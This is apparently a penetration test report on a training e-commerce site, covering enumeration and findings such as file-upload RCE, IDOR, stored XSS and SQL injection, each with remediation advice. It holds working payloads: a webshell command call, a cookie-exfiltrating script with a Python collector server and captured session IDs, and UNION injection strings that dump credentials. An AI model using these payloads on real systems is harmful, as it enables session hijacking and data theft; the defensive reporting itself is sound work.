

# Hack Smarter E-Commerce Ecosystem - Penetration Test Report

## **Objective and Scope**

The primary objective of this penetration test is to evaluate the security posture of the **Hack Smarter** e-commerce ecosystem. This assessment aims to identify, validate, and document vulnerabilities within the application layer, business logic, and server configuration.

The ultimate goal is to provide actionable intelligence that would allow a development team to remediate flaws and harden the application against future attacks.

## **Scope of Work**

**In-Scope Assets:**

- **Domain:** `hacksmarter.hsm`
- **User Roles:** Testing shall be conducted from the perspective of an unauthenticated guest, a standard registered user, and an escalated administrator.

**Credentials:**

```
admin:admin123
user:password
```

## Enumeration

### Rustscan

```bash
rustscan -a 10.1.95.132

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 62
80/tcp open  http    syn-ack ttl 61

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```
### Directory Enumeration (dirsearch) `hacksmarter.hsm`

```bash
$ dirsearch -u http://hacksmarter.hsm

[08:17:42] Starting: 
[08:17:49] 200 -  410B  - /.gitignore                                       
[08:17:49] 403 -  280B  - /.ht_wsr.txt                                      
[08:17:49] 403 -  280B  - /.htaccess.bak1                                   
[08:17:49] 403 -  280B  - /.htaccess.orig                                   
[08:17:49] 403 -  280B  - /.htaccess.sample
[08:17:49] 403 -  280B  - /.htaccess.save
[08:17:49] 403 -  280B  - /.htaccess_sc
[08:17:49] 403 -  280B  - /.htaccess_extra                                  
[08:17:49] 403 -  280B  - /.htaccess_orig
[08:17:49] 403 -  280B  - /.htaccessBAK
[08:17:49] 403 -  280B  - /.htaccessOLD2
[08:17:49] 403 -  280B  - /.htaccessOLD                                     
[08:17:49] 403 -  280B  - /.htm                                             
[08:17:49] 403 -  280B  - /.html
[08:17:49] 403 -  280B  - /.htpasswd_test                                   
[08:17:49] 403 -  280B  - /.httr-oauth                                      
[08:17:49] 403 -  280B  - /.htpasswds
[08:17:57] 301 -  318B  - /admin  ->  http://hacksmarter.hsm/admin/         
[08:17:58] 302 -    0B  - /admin/  ->  ../login.php                         
[08:17:59] 302 -    0B  - /admin/index.php  ->  ../login.php                
[08:18:06] 301 -  316B  - /api  ->  http://hacksmarter.hsm/api/             
[08:18:06] 200 -  459B  - /api/                                             
[08:18:09] 301 -  319B  - /assets  ->  http://hacksmarter.hsm/assets/       
[08:18:15] 200 -  444B  - /assets/                                          
[08:18:19] 200 -    1KB - /cart.php                                         
[08:18:21] 301 -  319B  - /config  ->  http://hacksmarter.hsm/config/       
[08:18:21] 200 -  454B  - /config/                                          
[08:18:27] 200 -    1KB - /feedback.php                                     
[08:18:28] 200 -    2KB - /forum.php                                        
[08:18:30] 301 -  321B  - /includes  ->  http://hacksmarter.hsm/includes/   
[08:18:30] 200 -  513B  - /includes/                                        
[08:18:34] 302 -    2KB - /login.php  ->  login.php?next=store.php          
[08:18:34] 302 -    0B  - /logout.php  ->  login.php?msg=logged_out         
[08:18:43] 302 -    2KB - /product.php  ->  store.php                       
[08:18:43] 302 -    2KB - /profile.php  ->  login.php                       
[08:18:44] 200 -    1KB - /register.php                                     
[08:18:46] 403 -  280B  - /server-status                                    
[08:18:46] 403 -  280B  - /server-status/                                   
[08:18:50] 200 -    2KB - /store.php                                        
[08:18:52] 301 -  317B  - /test  ->  http://hacksmarter.hsm/test/           
[08:18:52] 200 -  457B  - /test/                                            
[08:18:54] 301 -  320B  - /uploads  ->  http://hacksmarter.hsm/uploads/     
[08:18:54] 200 -  470B  - /uploads/                                         
                                                                             
Task Completed                         
```

### Enumerating directories `hacksmarter.hsm`

#### .gitignore




#### api


#### api/forum/post.php


#### api/products/all.php

```jsx
[
  {
    "id": "1",
    "name": "Hack Smarter Hoodie",
    "description": "Stay warm while you breach firewalls. 100% Cotton, blackest black.",
    "price": "49.99",
    "image": "placeholder.jpg",
    "is_released": "1",
    "is_available_in_region": "1"
  },
  {
    "id": "2",
    "name": "Mechanical Keyboard",
    "description": "Blue switches for the loudest typing experience possible.",
    "price": "120.00",
    "image": "placeholder.jpg",
    "is_released": "1",
    "is_available_in_region": "1"
  },
  {
    "id": "3",
    "name": "Encrypted USB Drive",
    "description": "Hardware encryption to keep your payloads safe.",
    "price": "85.00",
    "image": "placeholder.jpg",
    "is_released": "1",
    "is_available_in_region": "1"
  },
  {
    "id": "4",
    "name": "WiFi Deauther Watch",
    "description": "Disconnect annoyance with style. Wearable packet injection.",
    "price": "65.00",
    "image": "placeholder.jpg",
    "is_released": "1",
    "is_available_in_region": "1"
  },
  {
    "id": "5",
    "name": "Flipper Zero (Restricted)",
    "description": "The ultimate multi-tool for geeks. RESTRICTED ITEM.",
    "price": "169.00",
    "image": "placeholder.jpg",
    "is_released": "1",
    "is_available_in_region": "0"
  },
  {
    "id": "6",
    "name": "Quantum Decryptor (Unreleased)",
    "description": "Decrypts anything instantly. FUTURE TECH.",
    "price": "9999.00",
    "image": "placeholder.jpg",
    "is_released": "0",
    "is_available_in_region": "1"
  }
 ]
```

#### assets/js/store.js


### Vhosts

```bash
$ ./vhost_fuzzer.sh hacksmarter.hsm /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
 :: Method           : GET
 :: URL              : http://hacksmarter.hsm
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Header           : Host: FUZZ.hacksmarter.hsm
 :: Header           : User-Agent: PENTEST
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 6179
________________________________________________

dev                     [Status: 200, Size: 2206, Words: 425, Lines: 57, Duration: 131ms]
Dev                     [Status: 200, Size: 2206, Words: 425, Lines: 57, Duration: 127ms]
DEV                     [Status: 200, Size: 2206, Words: 425, Lines: 57, Duration: 114ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```


### Directory Enumeration on `dev.hacksmarter.hsm`

```bash
$ dirsearch -u http://dev.hacksmarter.hsm
[08:36:11] Starting:                                                                                                                     
[08:36:18] 403 -  284B  - /.ht_wsr.txt                                      
[08:36:18] 403 -  284B  - /.htaccess.bak1                                   
[08:36:18] 403 -  284B  - /.htaccess.orig
[08:36:18] 403 -  284B  - /.htaccess.sample                                 
[08:36:18] 403 -  284B  - /.htaccess.save                                   
[08:36:18] 403 -  284B  - /.htaccessBAK
[08:36:18] 403 -  284B  - /.htaccess_sc
[08:36:18] 403 -  284B  - /.htaccess_extra
[08:36:18] 403 -  284B  - /.htaccessOLD
[08:36:18] 403 -  284B  - /.htaccess_orig
[08:36:18] 403 -  284B  - /.htaccessOLD2
[08:36:18] 403 -  284B  - /.htm                                             
[08:36:18] 403 -  284B  - /.htpasswd_test                                   
[08:36:18] 403 -  284B  - /.html
[08:36:18] 403 -  284B  - /.htpasswds
[08:36:18] 403 -  284B  - /.httr-oauth                                      
[08:36:41] 301 -  327B  - /config  ->  http://dev.hacksmarter.hsm/config/   
[08:36:42] 200 -  458B  - /config/                                          
[08:36:53] 200 -   22KB - /info.php                                         
[08:37:09] 403 -  284B  - /server-status                                    
[08:37:09] 403 -  284B  - /server-status/                                                            
```
--- 

## Vulnerabilities

| **Vulnerability** | **Severity** | **Impact** |
| --- | --- | --- |
| Broken Access Control/ Business Logic Bypass | Medium/High | Restricted Product Purchase |
| Password Change Without Current Password Verification | Medium | Account Takeover |
| Unrestricted File Upload | Critical | Remote Code Execution (RCE) |
| Username Enumeration Through Registration Error Messages | Low | Credential stuffing/ Password spraying |
| IDOR | Critical | Privilege escalation |
| Stored XSS | Critical | Session Hijacking |
| SQL Injection | Critical | Unauthorized database access |
|  |  |  |

### Broken Access Control / Business Logic Bypass – Restricted Product Purchase

#### Severity

Medium / High

#### CWE

CWE-602: Client-Side Enforcement of Server-Side Security

#### OWASP Category

OWASP Top 10 2021 – A01: Broken Access Control

#### Description

The application restricts certain products based on the user’s geographic region. However, this restriction is enforced only on the client side using disabled buttons and hidden HTML elements.

By modifying the DOM through browser developer tools, a user can bypass these restrictions, add the product to the cart, and successfully complete checkout. The backend does not validate whether the product is allowed for the user’s region.

#### Affected Functionality

- Product detail page
- Add-to-cart functionality
- Checkout process

#### Steps to Reproduce

1. Visit a restricted product page from an unsupported region.
2. Observe the message: “Not available in your area”.
3. Open Developer Tools.
4. Remove the `disabled` attribute from the purchase button.
5. Remove `display:none` from hidden purchase elements.
6. Add the product to the cart.
7. Complete the checkout process successfully.

#### Proof of Concept

The restricted product was successfully:

- Added to the cart
- Checked out successfully
- Submitted as a valid order

This confirms that the restriction is enforced only on the frontend and not validated server-side.

#### Impact

An attacker can bypass regional restrictions and purchase products that should not be available in their area.

Potential impacts include:

- Unauthorized purchases
- Compliance or regulatory violations
- Circumvention of geographic restrictions

#### Root Cause

The application relies on client-side controls such as:

- Disabled buttons
- Hidden HTML elements
- CSS visibility restrictions

The backend does not properly validate restrictions during:

- Add-to-cart requests
- Checkout processing
- Order creation

#### Recommendation

Implement server-side validation for all restricted product workflows.

- Validate user region and eligibility on the backend
- Reject unauthorized add-to-cart and checkout requests
- Do not rely on client-side controls for security enforcement


### Password Change Without Current Password Verification

#### Severity

Medium

#### CWE

- CWE-620: Unverified Password Change
- CWE-287: Improper Authentication

#### OWASP Category

OWASP Top 10 2021 – A07: Identification and Authentication Failures

#### Description

The application allows users to change their password without verifying the current password. An attacker with access to an authenticated session can change the password and take over the account.

#### Affected Functionality

- Profile Settings
- Change Password Feature

#### Steps to Reproduce

1. Login to a valid account.
2. Navigate to the password change section.
3. Enter a new password without providing the current password.
4. Submit the request.
5. Observe that the password is changed successfully.

#### Impact

This issue may lead to:

- Account takeover
- Persistent unauthorized access
- User lockout

#### Recommendation

- Require the current password before allowing password changes
- Re-authenticate users for sensitive actions
- Invalidate active sessions after password changes
- Notify users when passwords are updated

#### References

- OWASP Authentication Cheat Sheet
- CWE-620: Unverified Password Change


### Unrestricted File Upload Leading to Remote Code Execution (RCE)

#### Severity

Critical

#### CWE

- CWE-434: Unrestricted Upload of File with Dangerous Type
- CWE-94: Improper Control of Generation of Code

#### OWASP Category

OWASP Top 10 2021 – A03: Injection

#### Description

The file upload functionality in `Global Settings & Branding` allows authenticated administrators to upload files without proper server-side validation.

By modifying a PNG image payload and embedding PHP code, it was possible to upload a malicious PHP file. The uploaded file was stored in a web-accessible directory and executed by the server, resulting in Remote Code Execution (RCE).

#### Affected Functionality

- Global Settings & Branding
- Logo/Image Upload Feature

#### Steps to Reproduce

1. Login using:
    - `admin:admin123`
2. Navigate to:
    - `Global Settings & Branding`
3. Upload a valid PNG image and intercept the request using `Caido`.
4. Modify the file content:
    - Keep the PNG header bytes
    - Replace the remaining content with PHP code
5. Forward the request.
6. Access the uploaded file:
    - `uploads/logos/image.php`
7. Execute a command using:
    - `?cmd=whoami`
8. Observe the response:
    - `www-data`

#### Proof of Concept

```
GET /uploads/logos/image.php?cmd=whoami
```

**Response:**

```
www-data
```

This confirms arbitrary command execution on the server.

#### Impact

An authenticated attacker can achieve Remote Code Execution on the server, potentially leading to:

- Full server compromise
- Arbitrary command execution
- Data theft or destruction
- Application takeover

#### Root Cause

The application does not properly validate uploaded files and stores them in an executable web-accessible directory.

Issues identified:

- Insufficient file content validation
- Executable file uploads allowed
- PHP execution enabled in upload directory

#### Recommendation

- Restrict uploads to approved file types only
- Validate MIME type and file signatures
- Store uploads outside the web root
- Disable script execution in upload directories
- Re-encode uploaded images server-side
- Reject files containing executable content

#### References

- OWASP File Upload Security Cheat Sheet
- CWE-434: Unrestricted Upload of File with Dangerous Type
- OWASP Top 10 – Injection


### Username Enumeration Through Registration Error Messages

#### Severity

Low

#### CWE

- CWE-204: Observable Response Discrepancy

#### OWASP Category

OWASP Top 10 2021 – A07: Identification and Authentication Failures

#### Description

The registration page reveals whether a username already exists through specific error messages.

Attempting to register with the username `admin` returned a message indicating that the account already exists, allowing attackers to enumerate valid usernames.

#### Affected Functionality

- User Registration Page

#### Steps to Reproduce

1. Navigate to the registration page.
2. Attempt to register with the username `admin`.
3. Submit the form.
4. Observe the response:
    
    ```
    Error: That username is already taken. Please choose another.
    ```
    

#### Impact

Attackers can identify valid usernames and use them for:

- Credential stuffing
- Password spraying
- Targeted phishing

#### Recommendation

- Use generic error messages for registration failures
- Avoid revealing whether usernames exist
- Implement rate limiting and monitoring

#### References

- OWASP Authentication Cheat Sheet
- CWE-204: Observable Response Discrepancy


### Privilege Escalation via User ID Manipulation (IDOR)

#### Severity

High

#### CWE

CWE-639: Authorization Bypass Through User-Controlled Key
CWE-284: Improper Access Control

#### OWASP Category

OWASP Top 10 2021 – A01: Broken Access Control

#### Description

The forum thread creation endpoint is vulnerable to IDOR. The application trusts a client-controlled user_id parameter, allowing attackers to impersonate other users by modifying it in intercepted requests.

Changing user_id from 2 (normal user) to 1 (admin) allowed posting as the administrator.

#### Affected Functionality

Thread creation endpoint (user_id parameter)

#### Steps to Reproduce

- Log in as a normal user.
- Create a thread and intercept the request.
- Change user_id=2 to user_id=1.
- Forward the request.
- Refresh the forum.

#### Impact

- User impersonation (including admin accounts)
- Unauthorized content attribution
- Broken access control

#### Recommendation

Remove user_id from client requests
Use server-side session identity only
Enforce authorization checks on all actions

#### References

OWASP Top 10 2021 – A01: Broken Access Control
CWE-639: Authorization Bypass Through User-Controlled Key


### **Stored Cross-Site Scripting (XSS) Leading to Session Hijacking**

#### Severity

Critical

#### CWE

- CWE-79: Improper Neutralization of Input During Web Page Generation (‘Cross-site Scripting’)
- CWE-384: Session Fixation / Session Hijacking

#### OWASP Category

OWASP Top 10 2021 – A03: Injection

#### Description

The community forum is vulnerable to Stored Cross-Site Scripting (XSS). User-supplied input is rendered without proper sanitization, allowing arbitrary JavaScript execution in other users’ browsers.

A malicious payload was posted in a forum thread:

```bash
<script>alert(document.cookie)</script>
```

This successfully executed and exposed the victim’s session cookie.

To demonstrate impact escalation, a second payload was used to exfiltrate cookies to an attacker-controlled server:

```bash
<script>
fetch("http://localhost:5000", {
  method: "POST",
  headers: {
    "Content-Type": "application/json"
  },
  body: JSON.stringify({ name: document.cookie })
});</script> 
```

Captured session cookies were successfully written to a server-side text file, demonstrating the ability to steal active user sessions and impersonate users without credentials.

#### Affected Functionality

- Community forum thread creation/display

#### Steps to Reproduce

1. Log in as a normal user.
2. Create a forum thread containing the XSS payload.
3. Submit the thread.
4. View the thread from another authenticated session.
5. Observe JavaScript execution and session cookie theft.

#### Impact

- Session hijacking
- Account takeover
- Administrator impersonation
- Theft of sensitive session data
- Execution of arbitrary JavaScript in victim browsers

#### Recommendation

- Sanitize and encode all user-controlled input before rendering
- Implement output encoding for HTML/JavaScript contexts
- Use a strict Content Security Policy (CSP)
- Mark session cookies as `HttpOnly`
- Validate and filter dangerous HTML tags such as `<script>`

#### References

- OWASP Top 10 2021 – A03: Injection
- CWE-79: Cross-site Scripting (XSS)
- OWASP XSS Prevention Cheat Sheet

Python server code for saving the received cookie in a text file for later usage

```bash
from http.server import BaseHTTPRequestHandler, HTTPServer
import json

class SimpleHandler(BaseHTTPRequestHandler):

    def _set_cors_headers(self):
        self.send_header("Access-Control-Allow-Origin", "*")
        self.send_header("Access-Control-Allow-Methods", "POST, OPTIONS")
        self.send_header("Access-Control-Allow-Headers", "Content-Type")

    def do_OPTIONS(self):
        self.send_response(200)
        self._set_cors_headers()
        self.end_headers()

    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)

        try:
            data = json.loads(post_data.decode('utf-8'))
        except:
            data = {"raw": post_data.decode('utf-8')}

        with open("received_data.txt", "a") as f:
            f.write(str(data) + "\n")

        self.send_response(200)
        self._set_cors_headers()
        self.send_header('Content-type', 'application/json')
        self.end_headers()

        self.wfile.write(json.dumps({"status": "saved"}).encode())

def run(port=5000):
    server = HTTPServer(('', port), SimpleHandler)
    print(f"Server running on port {port}")
    server.serve_forever()

run()
```

```bash
└─$ cat received_data.txt
{'name': 'PHPSESSID=86685987743939095fe7b1ffa5d5dbfb'}
{'name': 'PHPSESSID=86685987743939095fe7b1ffa5d5dbfb'}
{'name': 'PHPSESSID=86685987743939095fe7b1ffa5d5dbfb'}
{'name': 'PHPSESSID=53d85c7dcb1598a3104fab8352b59b5e'}
```

### **SQL Injection in Product Search Functionality**

#### Severity

Critical

#### CWE

- CWE-89: Improper Neutralization of Special Elements used in an SQL Command (‘SQL Injection’)

#### OWASP Category

OWASP Top 10 2021 – A03: Injection

#### Description

The product search functionality is vulnerable to SQL Injection. User input is not properly sanitized before being included in SQL queries, allowing attackers to manipulate backend database queries.

Testing with a single quote (`'`) triggered a database error, confirming injectable input. Further testing using the `ORDER BY` clause identified that the query contains 7 columns.

Using a `UNION SELECT` payload, it was possible to extract sensitive data from the `users` table, including usernames and passwords.

#### Affected Functionality

- Product search bar
- Backend search query handling

#### Steps to Reproduce

1. Navigate to the product search functionality.
2. Enter the following payload to confirm SQL injection:

```jsx
'
```


1. Determine the number of columns using:

```bash
' ORDER BY 7--'
```

1. Extract user credentials using:

```bash
' UNION SELECT NULL, username, password, NULL, NULL, NULL, NULL FROM users-- '
```

1. Observe that usernames and passwords are returned in the search results.


#### Impact

- Unauthorized database access
- Disclosure of usernames and passwords
- Potential account takeover
- Full compromise of backend database depending on privileges

#### Recommendation

- Use parameterized queries / prepared statements
- Avoid dynamic SQL query construction
- Implement server-side input validation
- Apply least-privilege database permissions
- Suppress verbose SQL/database errors

#### References

- OWASP Top 10 2021 – A03: Injection
- CWE-89: SQL Injection
- OWASP SQL Injection Prevention Cheat Sheet